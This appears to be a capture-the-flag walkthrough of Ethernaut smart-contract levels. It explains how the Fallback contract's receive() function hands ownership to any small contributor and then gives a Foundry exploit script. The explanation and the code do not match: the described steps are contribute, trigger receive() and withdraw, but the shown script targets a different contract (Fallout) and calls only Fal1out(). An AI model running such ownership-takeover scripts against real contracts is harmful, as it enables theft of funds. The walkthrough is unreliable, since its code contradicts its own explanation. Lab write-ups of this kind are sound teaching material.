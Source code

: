 ### Why is this Dangerous?

Because the `receive()` function is **meant to be passive**. It’s designed to let contracts accept funds quietly without interfering with their state too much. But here, it’s not just accepting ether — it’s making a **critical state change**: assigning **ownership**.

This means that **anyone** who has made even a tiny contribution (literally 1 wei), can simply send another small ether transfer directly and instantly become the contract owner — regardless of how much the current owner contributed.

It’s like a doorman letting you into a vault just because you donated a penny earlier.

### Why It Happens

The intention behind this design might have been to reward contributors who actively send ether — but the implementation failed to consider:

- **How low the bar is for `contributions[msg.sender] > 0`**
- The fact that `receive()` can be triggered outside the normal function call flow
- And most importantly, that assigning ownership should **never** happen inside such a loosely guarded function

Way too much theory, let’s begin the actual exploit. I’m writing the solution using Foundry, setting up a script that will execute the entire attack in one clean sweep.

We start by importing the original contract and setting the target instance manually using its deployed address

```solidity

level1 = Fallback(payable(0x7ab4C4804197531f7ed6A6bc0f0781f706ff7953));
```

This connects us to the vulnerable contract instance deployed at the provided address. Now, to pull off the exploit, we just follow three simple moves:

1. Contribute a tiny amount.
2. Trigger the `receive()` function.
3. Withdraw all the funds.

Here is the Solution Script

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import {Script, console} from "forge-std/Script.sol";
import {Fallout} from "../src/Fallout.sol";

contract FalloutSolution is Script {
    Fallout public level2;
    function setUp() external {
        level2 = Fallout(payable(0x8dAF17A20c9DBA35f005b6324F493785D239719d));
    }

    function run() external{

    uint256 privatekey = vm.envUint("PRIVATE_KEY");
    vm.startBroadcast(privatekey);
    console.log("Owner's address: ", level2.owner());
    level2.Fal1out();
    console.log("New owner's address: ", level2.owner());
    vm.stopBroadcast();
    }
}
```

---